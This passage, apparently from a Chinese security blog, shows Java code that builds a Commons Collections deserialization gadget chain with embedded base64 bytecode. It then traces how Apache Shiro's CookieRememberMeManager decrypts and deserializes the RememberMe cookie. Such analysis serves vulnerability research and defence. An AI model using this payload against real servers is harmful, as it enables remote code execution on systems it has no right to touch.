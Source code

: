 ```java
                "aW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYAIQAKAAsAAAAAAAQAAQAMAA0AAQAOAAAAHQAB" +
                "AAEAAAAFKrcAAbEAAAABAA8AAAAGAAEAAAAIAAEAEAARAAIADgAAABkAAAADAAAAAbEAAAABAA8A" +
                "AAAGAAEAAAAYABIAAAAEAAEAEwABABAAFAACAA4AAAAZAAAABAAAAAGxAAAAAQAPAAAABgABAAAA" +
                "HQASAAAABAABABMACAAVAA0AAQAOAAAAWwACAAEAAAAauAACEgO2AARLpwAISyq2AAayAAcSCLYA" +
                "CbEAAQAAAAkADAAFAAIADwAAABoABgAAAAwACQAPAAwADQANAA4AEQARABkAEwAWAAAABwACTAcA" +
                "FwQAAQAYAAAAAgAZ");
        byte[][] codes={code};
        bytecodes.set(templates,codes);

        InvokerTransformer invokerTransformer=new InvokerTransformer("newTransformer",null,null);

        HashMap<Object,Object> map= new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,templates);

        HashMap<Object,Object> map2=new HashMap<>();
        map2.put(tiedMapEntry,"bbb");
        lazyMap.remove(templates);
        //防止在序列化hashCode的时候触发
        Class<LazyMap> lazyMapClass = LazyMap.class;
        Field factory = lazyMapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap,invokerTransformer);
        serialize(map2);

        //HashMap.readObject()->TiedMapEntry.get()-->LazyMap.get()-->invokerTransformer

```



#### cookie反序列化流程分析

首先,在idea中通过双击`shift`查找关键字,cookie有关的类,找到一个`CookieRememberMeManager`类

![image-20220319234114164](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220319234114164.png)

其中有一个`getRemeberedSerializedIdentity`方法,它的作用是获取cookie中的base64解码后的bytes,调用它的是`getRememberedPrincipals`方法

![image-20220319235731776](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220319235731776.png)

先获得base64解码后的bytes,然后再调用convertBytesToPrincipals方法,它里面再调用decrypt进行解码

![image-20220320001010886](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220320001010886.png)

![image-20220320001030875](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220320001030875.png)

再调用cipherService接口的decrypt进行解密,解密后得到序列化字符串的bytes

然后对其调用`deserialize`进行反序列化

![image-20220320001504004](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220320001504110.png)
